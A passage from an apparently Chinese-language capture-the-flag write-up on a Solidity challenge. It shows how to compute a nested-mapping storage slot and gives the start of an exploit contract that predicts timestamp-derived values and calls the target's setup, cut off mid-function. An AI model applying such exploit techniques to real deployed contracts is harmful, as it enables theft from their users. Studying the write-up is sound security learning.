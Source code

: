 ![](https://cdn.silente.top/img/202311131602605.png)

### Stage 4

这里没啥难度，就是一个嵌套 map 在 slot 中的存储，记住先算外面再算里面就行：

```solidity
function pos() public view returns (bytes32) {
    bytes32 outter = keccak256(abi.encode(0x4, 0x1));
    bytes32 inner = keccak256(abi.encode(address(this), outter));
    return inner;
}
```

![](https://cdn.silente.top/img/202311131618634.png)

??? info "EXP"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.13;

    import "./Foo.sol";
    import "./Utils.sol";

    import "hardhat/console.sol";

    contract HackSub {
        uint[] challenge = new uint[](8);
        Foo foo;

        constructor(address _foo) {
            foo = Foo(_foo);

            challenge[0] = (block.timestamp & 0xf0000000) >> 28;
            challenge[1] = (block.timestamp & 0xf000000) >> 24;
            challenge[2] = (block.timestamp & 0xf00000) >> 20;
            challenge[3] = (block.timestamp & 0xf0000) >> 16;
            challenge[4] = (block.timestamp & 0xf000) >> 12;
            challenge[5] = (block.timestamp & 0xf00) >> 8;
            challenge[6] = (block.timestamp & 0xf0) >> 4;
            challenge[7] = (block.timestamp & 0xf) >> 0;

            for(uint i=0 ; i<8 ; i++) {
                for(uint j=i+1 ; j<8 ; j++) {
                    if (challenge[i] > challenge[j]) {
                        uint tmp = challenge[i];
                        challenge[i] = challenge[j];
                        challenge[j] = tmp;
                    }
                }
            }
        }

        function run() public {
            // create2 address must end with 137
            foo.setup();
            console.log("setup success");
